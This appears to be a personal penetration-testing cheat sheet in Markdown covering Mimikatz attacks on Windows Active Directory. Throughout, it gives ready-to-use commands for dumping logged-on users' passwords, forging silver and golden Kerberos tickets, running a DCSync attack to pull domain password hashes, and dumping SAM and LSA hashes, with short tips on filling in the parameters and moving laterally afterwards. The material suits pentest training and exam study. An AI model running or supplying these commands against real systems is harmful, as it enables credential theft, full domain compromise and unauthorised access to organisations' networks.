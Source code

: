 # Mimikatz

cheat sheet 
[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)

## Silver Tickets

Using an admin powershell and open mimikatz:

```
privilege::debug
```

get passwords of logged on users:

```
sekurlsa::logonpasswords
```
Now, if we get the NTLM hash of an SPN with privleges to a service we want access to, we can forge a silver ticket.

```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /target:${RHOST_IP} /service:http /rc4:${NTLM_HASH} /user:${DOMAIN_USER} /ptt
```
The `$DOMAIN_SID` can be retrieved by doing `whoami /user` from a domain user and getting everything but the last section (which identifies the user).
Note that the user argument just has to be a valid user from the domain.
What determines the access rights is the NTLM hash and not the user, so you can even put the current user.

Afterwards, do `exit` and check that the ticket is loaded into memory with `klist`.

We can now use it to move laterally with the techniques mentioned [here](./lateral-movement.md).


## Golden Tickets

Golden Tickets are just Silver Tickets for the krbtgt account.
This grants access to all services using Kerberos authentication.

Another example of the above command (note we pass the NTLM hash to `/krbtgt` and don't specify a specific target):


```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /krbtgt:${KRBTGT_NTLM} /user:${DOMAIN_USER} /ptt

```
Followed up with:

```
misc::cmd
```

Now, eg.  `PsExec` can be run from CMD with the ticket.


## DSYNC

mimikatz can help us attempt to get the NTLM of a user in the domain by performing a dsync attack:
(requires local admin).

```
lsadump::dcsync /user:${DOMAIN}\${USER}
```
## Dump hashes

Dump with either:
```
lsadump:sam
lsadump::lsa [/inject | /patch]
```
